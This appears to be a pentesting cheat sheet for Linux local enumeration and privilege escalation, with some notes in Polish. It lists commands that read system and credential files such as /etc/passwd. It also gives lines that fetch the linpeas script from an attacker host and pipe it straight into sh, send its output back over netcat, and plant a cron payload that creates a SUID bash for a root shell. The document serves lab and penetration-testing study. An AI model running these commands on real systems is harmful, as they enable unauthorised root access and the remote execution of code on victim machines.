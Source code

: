 # Local Enumeration

### Enumerationg System Information

```bash
hostname
cat /etc/issue
cat /etc/*release
uname -a
lscpu
df -h
cat /etc/shells
```

### Enumerationg USers and Groups

```bash
whoami
groups
groups root
cat /etc/passwd
who
lastlog
```

### Enumerationg Network Information

```bash
netstat
route
ip a s
cat /etc/networks
cat /etc/hosts
cat /etc/resolv.conf
```

### Enumerating Processes & Cron Jobs

```bash
ps aux
crontab -l
cat /etc/cron*
```
# Automatic Local Enumeration


## $ LinEnum (.sh)

Scripted Local Linux Enumeration & Privilege Escalation Checks
https://github.com/rebootuser/LinEnum

## $ Linux-Exploit-Suggester (.sh)

https://github.com/mzet-/linux-exploit-suggester

## $ linPEAS

Cały projekt https://github.com/carlospolop/PEASS-ng/tree/master  
linpeas.sh : https://github.com/carlospolop/PEASS-ng/releases/tag/20231024-f6adaa47

**Local network**

```bash
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

**Without curl**

```bash
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```

**Excute from memory and send output back to the host**

```bash
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```


# Privilege Escalation

## $ traitor

Automatically exploit low-hanging fruit to pop a root shell
https://github.com/liamg/traitor
https://github.com/liamg/traitor/releases

## Cron jobs

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```

## SUID binaries

```bash
# nadaj SUID plikowi /bin/cp
$ chmod u+s /bin/cp
# znajdź binarki z ustawionym SUID
$ find / -perm -u=s -type f 2>/dev/null
```

## ręcznie

```bash
find / -not -type l -perm -o+w # identify files with the write permission applied for all user accounts
openssl passwd -1 -salt abc password # hash hasła password, salt abc, hash MD5
find / -user root -perm -4000 -exec ls -ldb {} \; # finding setuid program
sudo -l # misconfigured sudo
```

